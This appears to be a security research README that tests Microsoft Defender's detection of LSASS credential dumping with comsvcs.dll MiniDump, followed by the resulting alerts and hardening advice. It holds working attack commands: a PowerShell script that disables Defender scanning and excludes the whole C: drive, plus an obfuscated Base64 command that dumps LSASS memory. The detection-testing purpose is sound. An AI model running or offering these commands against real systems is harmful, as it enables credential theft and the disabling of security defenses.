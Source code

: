# LSASS dumping, MiniDump
Hackers might target LSASS to grab login credentials stored in its memory. 
After a user logs in, LSASS stores important credential info that can be stolen by attackers to move through a system using different authentication details.

Microsoft Defender for Endpoint and Defender Antivirus effectively prevent and detect LSASS dumping activities. 
Now, I'd like to demonstrate the detection perspective by ***capturing all activities and correlating multiple alerts into a single incident***.

## Red Note (test insights)
**PowerShell, LSASS credential dumping, Built-in Windows tool** 
```powershell
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID C:\temp\out.dmp full" 
```

**Attack Script**
- [x] Download [a script](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04Ninja.ps1) ↓

```powershell
// disable Microsoft Defender Antivrus tool
Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath "C:\" -DisableBlockAtFirstSeen $true -DisableEmailScanning $true -DisableScriptScanning $true -ExclusionExtension "exe"

// create "C:\temp" for a dump file
$tempDir = "C:\temp"
if (-not (Test-Path $tempDir -PathType Container)) {
        New-Item -Path $tempDir -ItemType Directory
}

// LSASS dumping using the built-in Windows tool, Encoded by Base64
powershell.exe -e JABsAHMAYQBzAHMAUABJAEQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABsAHMAYQBzAHMAKQAuAEkAZAANAAoAYwBtAGQALgBlAHgAZQAgAC8AQwAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGMAbwBtAHMAdgBjAHMALgBkAGwAbAAsACAATQBpAG4AaQBEAHUAbQBwACAAJABsAHMAYQBzAHMAUABJAEQAIABDADoAXAB0AGUAbQBwAFwAbwB1AHQALgBkAG0AcAAgAGYAdQBsAGwAIgA=
```
> [!Note]
> This script will perform the following actions:
> 1. Disable Microsoft Defender Antivrus tool
> 2. Create "C:\temp" for a dump file
> 3. LSASS dumping using the built-in Windows tool (Encoded by Base64)
> 
> Make sure that [MDE Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc) is disabled.

## Alerts & Detections
After running the script, these alerts were generated and correlated into a single incident in Microsoft Defender XDR portal.
- [x] Suspicious PowerShell command line
- [x] Sensitive credential memory read
- [x] Suspicious process executed PowerShell command
- [x] Suspicious access to LSASS service
- [x] Process memory dump
- [x] Suspicious Process Discovery
- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/c3c23a51-799e-434b-b914-c48acbc2bee7)

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Turn on [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)

## Reference
- [OS Credential Dumping: LSASS Memory, T1003.001](https://attack.mitre.org/techniques/T1003/001/)
- [Detecting and preventing LSASS credential dumping attacks](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
